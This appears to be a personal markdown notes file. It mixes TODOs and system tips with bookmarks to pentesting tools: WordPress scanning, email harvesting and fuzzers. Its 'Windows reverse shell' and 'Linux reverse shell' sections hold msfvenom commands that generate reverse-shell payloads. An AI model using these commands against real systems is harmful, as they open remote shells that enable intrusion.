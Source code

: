 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

TODO - track cura bug issue
TODO - execute script on shutdown 
    so far:
        service in /usr/lib/systemd/system-shutdown/clean_gnome_home.shutdown
        script in /bin/clean_home
TODO - Kioku: Rename 'Shell' skill to Bash and create a new Shell skill with cmnd line utilities
TODO - I want a shell TRAP @ work that broadcasts a defined variable to all open terminals
TODO - check what I got in store PHP wise @ root (with PsySH)
TODO - for Python relevant stuff make a Notebook rather than a .md file (Python.md)


## BSS section
containing statically-allocated variables

## Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

## CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

## FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

### Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt

